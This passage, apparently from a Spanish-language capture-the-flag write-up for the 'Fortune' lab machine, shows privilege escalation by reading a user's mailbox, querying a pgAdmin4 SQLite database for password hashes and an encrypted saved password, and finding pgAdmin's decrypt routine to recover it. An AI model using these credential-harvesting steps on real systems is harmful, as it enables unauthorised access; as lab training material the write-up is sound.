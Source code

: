 ## Subida de privilegios

En el directorio personal de `Charlie` también nos encontramos con un archivo llamado `mbox`, el cual contiene un correo de parte de `Bob` que dice lo siguiente:

> Hi Charlie,
> Thanks for setting-up pgadmin4 for me. Seems to work great so far.
>
> BTW: I set the dba password to the same as root. I hope you don't mind.
>
> Cheers, Bob


Bien, básicamente nos está agradeciendo que hayamos montado `pgadmin4` por él, parece que funciona bien por el momento. Nos menciona que la contraseña de la base de datos es la misma que la de `root` y que espera que no le importe.

En el directorio `/var/appsrv/pgadmin4/` vemos un archivo `DB` llamado `pgadmin4.db`, con `sqlite3` nos diponemos a abrirlo para inspeccionarlo.

- `sqlite3 pgadmin4.db`
- `sqlite> .tables`

```
alembic_version roles_users
debugger_function_arguments server
keys servergroup
module_preference setting
preference_category user
preferences user_preferences
process version
role
```

- `sqlite> SELCT * FROM server;`

```
[...]|utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz|[...]
```

- `sqlite> SELECT * FROM users;`

```
1|charlie@fortune.htb|$pbkdf2-sha512$25000$3hvjXAshJKQUYgxhbA0BYA$iuBYZKTTtTO.cwSvMwPAYlhXRZw8aAn9gBtyNQW3Vge23gNUMe
2|bob@fortune.htb|$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQ
```

Como vemos tenemos el hash de `Charlie` y `Bob`, la fuerza bruta no aplica en este caso, por lo que tenemos que buscar otra manera de desencriptar esto. Tras buscar un rato llegamos a la ruta `/usr/local/pgadmin4/pgadmin4-3.4/web/pgadmin/utils/` que incluye un `script` en `Python` llamado `crypto.py` donde la función `decrypt` está definida.

```
def decrypt (ciphertext, key):
    """
    Decrypt the AES encrypted string.

    Parameters:
    ciphertext -- Encrypted string with AES method.
    key -- key to decrypt the encrypted string.
    """

    global padding_string

    ciphertext = base64.b64decode(ciphertext)
    iv = ciphertext[:AES.block_size]
    cipher = AES.new(pad(key), AES.MODE_CFB, iv)
    decrypted = cipher.decrypt(ciphertext[AES.block_size:])
```